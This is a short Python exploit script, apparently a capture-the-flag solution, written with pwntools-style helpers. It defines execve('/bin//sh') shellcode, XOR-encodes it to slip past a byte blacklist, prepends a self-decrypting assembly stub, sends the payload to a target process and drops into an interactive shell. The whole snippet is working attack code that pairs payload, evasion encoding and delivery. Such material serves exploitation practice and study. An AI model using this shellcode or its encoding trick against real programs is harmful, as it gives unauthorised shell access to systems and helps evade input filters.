 ```python

shellcode = b"\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x52\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05"

xored_shellcode = bytes([x ^ 0xac for x in shellcode])

shellcode_stub = asm('''
call get_rip
get_rip:
    pop rsi
    add rsi, 0x14
    mov rcx, 24
decrypt:
    xor byte ptr [rsi], 0xac
    inc rsi
    loop decrypt
''')

info(f"{len(shellcode_stub)=}")
info(f"{len(shellcode)=}")
payload = shellcode_stub + xored_shellcode

# print_blacklisted(payload, blacklist)

io = start()

io.sendline(payload)

io.interactive()
```
